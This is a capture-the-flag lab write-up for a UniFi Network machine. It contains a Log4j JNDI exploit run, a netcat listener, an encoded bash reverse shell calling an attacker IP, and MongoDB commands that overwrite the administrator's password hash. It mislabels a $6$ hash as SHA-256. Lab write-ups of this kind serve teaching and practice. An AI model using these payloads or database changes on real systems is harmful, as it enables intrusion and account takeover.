




## Machine Info

**Tags:**

Web, Vulnerability Assessment, Databases, Injection, Custom Applications, Outdated Software, MongoDB, Java, Reconnaissance, Clear Text Credentials, Default Credentials, Code Injection

## Recon

concise version:

```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
8880/tcp open  cddbp-alt?
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Tue, 21 Nov 2023 20:01:55 GMT
|     Connection: close
```

## Foothold

### unifi - 6.4.54

- firefox -> https://10.129.96.149:8443 -> accept risk and visit



- searchsploit to find exp

```bash
$ searchsploit unifi network
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Ubiquiti Networks UniFi 3.2.10 - Cross-Site Request Forgery                        | json/webapps/39488.txt
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass          | php/webapps/39268.java
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit Ubiquiti
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ubiquiti Administration Portal - Remote Command Execution (via Cross-Site Request Forgery)                                           | cgi/webapps/40044.html
Ubiquiti airCam RTSP Service 1.1.5 - Buffer Overflow (PoC)                                                                           | hardware/dos/26138.txt
Ubiquiti airOS - Arbitrary File Upload (Metasploit)                                                                                  | unix/remote/39853.rb
Ubiquiti AirOS 5.5.2 - (Authenticated) Remote Command Execution                                                                      | hardware/remote/23735.py
Ubiquiti Networks UniFi 3.2.10 - Cross-Site Request Forgery                                                                          | json/webapps/39488.txt
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass                                                            | php/webapps/39268.java
Ubiquiti UbiFi / mFi / AirVision - Cross-Site Request Forgery                                                                        | hardware/webapps/34187.txt
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                                                                              | windows/local/43390.txt
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- choose: [puzzlepeaches/Log4jUnifi: Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more. (github.com)](https://github.com/puzzlepeaches/Log4jUnifi) and install this tool -> get a shell based on this exp usage

```bash
$ python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.15.98 -p 1234
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.15.98:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.15.98:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!

$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.98] from (UNKNOWN) [10.129.96.149] 33788
id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```

## Privilege Escalation

```bash
$ sudo nc -lvnp 8899
listening on [any] 8899 ...
connect to [10.10.15.98] from (UNKNOWN) [10.129.96.149] 47058
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
unifi@unified:/usr/lib/unifi$ ls
ls
bin
data
dl
lib
logs
run
webapps
work
unifi@unified:/usr/lib/unifi$ id
id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```

- using /bin/bash to get a better shell

### mongodb cred seeking

- check procs

```bash
unifi@unified:/usr/lib/unifi$ ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   19:59   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7  0.0  0.1  18512  3200 ?        S    19:59   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17  1.1 22.3 3679540 455460 ?      Sl   19:59   0:53 java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/ace.jar start
unifi         67  0.1  4.1 1100676 85304 ?       Sl   19:59   0:09 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       2121  0.0  0.1  18380  3120 ?        S    21:13   0:00 bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuOTgvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
unifi       2124  0.0  0.1  18512  3348 ?        S    21:13   0:00 bash -i
unifi       2127  0.0  0.1  18380  3172 ?        S    21:13   0:00 bash
unifi       2207  0.0  0.1  18512  3532 ?        S    21:16   0:00 /bin/bash -i
unifi       2315  0.0  0.1  34408  2952 ?        R    21:20   0:00 ps aux
```

- find java's unifi and mongod are in the same project. And mongod's port is **27117** -> **unifi's dataset is mongodb !!!**
- conn mongdb -> get sensitive data

```bash
unifi@unified:/usr/lib/unifi$ mongo --port 27117
mongo --port 27117
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/
MongoDB server version: 3.6.3

show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB

$ use ace
switched to db ace

$ db.admin.find({"name":"administrator"})

$ db.admin.find({}, {name: 1})
```

- change x-shadow in order to change password of admin

```
db.admin.find().pretty()
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",
        "ui_settings" : { ...
```

```
db.admin.updateOne(
   { "name": "administrator" },
   { $set: { "x_shadow": "$6$Xolj1ebW9aRM/8xt$wj.BXJW73pUViZmZZhVyOqsyF35nlKx9t58gO2oLPbkhilOrDdyIQEvZjBYSjN9Dl5Dq6rOcA5rKC7/YtUTEt." } }
)
{ "acknowledged" : true, "matchedCount" : 1, "modifiedCount" : 1 }
```

- another method to update user's x-shadow

```
db.admin.update(
   { "name": "administrator" },
   { $set: { "x_shadow": "new_value" } },
   { multi: false }
)
```

### unifi -> root

- `su: must be run from a terminal` -> update shell

```bash
unifi@unified:/usr/lib/unifi$ su administrator
su administrator
su: must be run from a terminal
/usr/bin/script -qc /bin/bash /dev/null
```

- su root -> password wrong [x] change x-shadow does not alter shadow file -> Unifi login pass





- find cred to ssh conn into the server



---

## Failed Road

- instead of replacing x-shadow, crack hash [x]
- `$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4. - SHA-256`
- hashcat [x]
- john [x]
